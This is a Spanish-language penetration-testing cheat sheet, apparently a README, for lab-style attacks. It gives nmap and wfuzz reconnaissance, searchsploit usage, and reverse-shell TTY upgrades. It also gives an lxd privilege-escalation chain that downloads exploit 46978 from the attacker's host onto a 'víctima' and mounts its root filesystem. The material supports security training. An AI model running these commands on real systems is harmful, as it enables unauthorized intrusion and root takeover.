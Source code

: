 # La guía del explorador de seguridad en sistemas de información

En todos los siguientes comandos se asume que se ejecutan desde el usuario root con permisos de superusuario. Para acceder a él:

```bash
sudo su
```

Además nos referiremos a la ip de la maquina víctima de la manera `ipV` y a la de nuestra máquina como `ipH`.

# Fase de reconocimiento
En primer lugar debemos comprobar que exixte conexión entre nuestra máquina y la máquina atacada.

```bash
ping -c 1 <ipV>
```

En este punto ya podremos detectar de si la máquina víctima se trata de una máquina Linux (Si el TTL es menor y próximo a **64**) o Windows (Si el TTL es menor y próximo a **128**).

También es posible utilizar la utilidad `wichSystem.py`, la cual se puede incluir en el $PATH, que reportará por consola el tipo sistema de manera más limpia.

```bash
wichSystem.py <ipV>
```

## Nmap

Procedemos a la fase de reconocimiento de puertos para saber que servicios tiene expuestos la máquina y poder detectar posibles agujeros de seguridad.

```bash
nmap -p- --open -T5 -v -n <ipV>
```

+ -p-: Indica todo el rango de puertos (0-65535).
+ --open: Para que solo nos reporte aquellos que tienen un estado abierto.
+ -T: Con el parámetro -T controlamos el temporizado y rendimiento de el escaneo, puede tomar valores de 0 a 5, donde 5 es más rápido y también más ruidoso.
+ -v: Para que nos vaya reportando información por consola con el progreso del escaneo.
+ -n: Para que no aplique resolución DNS.

Si el escaneo resulta tedioso, podemos emplear el siguiente, aunque será muy ruidoso:

```bash
nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn <ipV> -oG allPorts
```

+ -sS: Se trata de un TCP SYN port scan.
+ --min-rate: Enviará paquetes no más lento que lo que se  le indique.
+ -vvv: Más verboso.
+ -Pn: Evitamos host discovery mediante el protocolo ARP.
+ -oG: Exportamos la captura a un archivo en formato grepeable. (Tambien se podría exportar a otros formatos -oA: All formats. -oX: Modo XML -oN: Modo nmap).

Ahora aplicamos la función extractPorts a la capruta de nmap de manera que se nos mostrará por pantalla de una forma mucho más limpia, además de copiarnos los puertos al portapapeles. Nota: Es necesario tener instalado `xclip` además de `batcat`.

```bash
extractPorts allPorts
```

A continuación le lanzaremos un serie de scripts básicos de numeración para tratar de detectar la versión y servicio que corren para los puertos obtenidos y lo exportará en formato Nmap al archivo targeted.

```bash
nmap -sC -sV -p<p1>,<p2>,<p3> <ipV> -oN targeted
```

Si uno de estos servicios se trata de http, podemos lanzar el script whatweb para detectar el gestor de contenidos que está utilizando el servidor web.

```bash
whatweb http://<ipV>:<p>
```

Para descubrir posibles rutas dentro de la aplicación web podemos utilizar:
```bash
nmap --script http-enum -p<p> <ipV> -oN webScan
```

Para descubrir subdominios dentr de la aplicación web podemos utilizar:
```bash
wfuzz -c --hc404 -t 200 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-11000.txt -H "Host: FUZZ.<domain>" http://<domain>
```

# SploitDB
Para buscar un sploit:

```bash
searchsploit <Nombre del servicio>
```

Para moverlo a tu directorio actual:

```bash
searchsploit -m <Número identificativo>
```
Por último quedaría entrar en el, introducir los valores requeridos y ejecutarlo.

# Tratamiento de la TTY
Al conseguir conectarnos a a una máquina a través de una reverse shell, esta no es del todo funcional, ya que algunos atajos como podrían ser Ctrl + C no los podríamos utilizar. Para solucionarlo:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
```
Terminal type? 
```bash
xterm
```

```bash
export TERM=xterm
export SHELL=bash
```

Por último debemos cambiar el número de filas y columnas. Previamente en una terminal de nuestro equipo ejecutamos:

```bash
stty size
```

Y copìamos el número de filas y columnas. Ahora en la terminal de la víctima podemos introducirlas mediante:

```bash
stty rows <nº filas> columns <nº columnas>
```

# Escalado de privilegios

Podemos ver en que grupos se encuentra el usuario mediante:
```bash
id
```

También si es posible ejecutar algún comando como superusuario
```bash
sudo -l
```

Buscamos privilegios suid en el directorio raíz /
```bash
find \-perm -4000 2>/dev/null
```

También podemos ver si nos encontramos dentro de un contenedor o no 
```bash
hostname -I
```


## Si pertenencia a docker o lxd:

Debemos averiguar si estamos en una máquina de 32 o 64 bits:
```bash
uname -a
```

Ahora en nuestra máquina de atacante debemos obtener el sploit y un fichero .tar.gz de alpine.

```bash
searchsploit lxd
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
./build-alpine [-a i686]
```
Este ultimo parámetro solo si nos encontramos ante una máquina de 32 bits.

```bash
searchsploit -m 46978
chmod +x 46978.sh
dos2unix 46978.sh
```

En la máquina atacante:
```bash
python3 -m http.server 80
```
Y en la máquina víctima:
```bash
wget http://<ipH>/alpine....tar.gz
wget http://<ipH>/46978.sh
chmod +x 46978.sh

./46978.sh -f alpine....tar.gz
```

Si el comando da un error como que requiere privilegios de root, debemos entrar al fichero:
```bash
vim 46978.sh
```
Eliminar la linea `lxc image import $filename --alias alpine && lxd init --auto` y volver a ejecutar el script.

```bash
./46978.sh -f alpine....tar.gz
```

```bash
cd /mnt/root/
```
Y este sería el directorio root de la maquina víctima. Aquí se podría añadir una id_rsa para ssh.

